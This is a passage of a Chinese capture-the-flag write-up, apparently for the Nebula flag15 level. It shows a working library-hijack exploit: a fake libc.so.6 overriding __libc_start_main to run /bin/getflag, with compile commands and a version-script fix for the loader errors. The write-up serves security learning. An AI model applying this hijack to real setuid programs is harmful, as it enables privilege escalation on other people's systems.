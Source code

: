 这是GCC特有的函数，当然也有一个相对通用的解决方案，使用内核的启动函数：

```cpp
int __libc_start_main(
	int (*main) (int, char * *, char * *),
	int argc,
	char **ubp_av,
	void (*init) (void),
	void (*fini) (void),
	void (*rtld_fini) (void),
	void(* stack_end)
)
```

我这里用这个参数长的BT的启动函数来写共享库（system()实则会fork()一个新进程并exec()替换进程执行）：

```cpp
#include <unistd.h>
int __libc_start_main(
	int (*main) (int, char * *, char * *), int argc,
	char **ubp_av, void (*init) (void), void (*fini) (void),
	void (*rtld_fini) (void), void(* stack_end))
{
	execl("/bin/getflag", (char *)NULL, (char *)NULL);
}
```

```bash
gcc -fPIC -shared -o /var/tmp/flag15/libc.so.6 libc.c
```

可是，执行flag15后提示:

```bash
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

两个错误，一个找不到符号，一个缺少GLIBC_2.1.3版本定义。Google后得到静态链接配合version script的方案，创建一个version文件：

```no-highlight
GLIBC_2.0 {
};
```

之后编译：

```bash
gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o /var/tmp/flag15/libc.so.6 libc.c
```

如此，即可成功运行getflag。
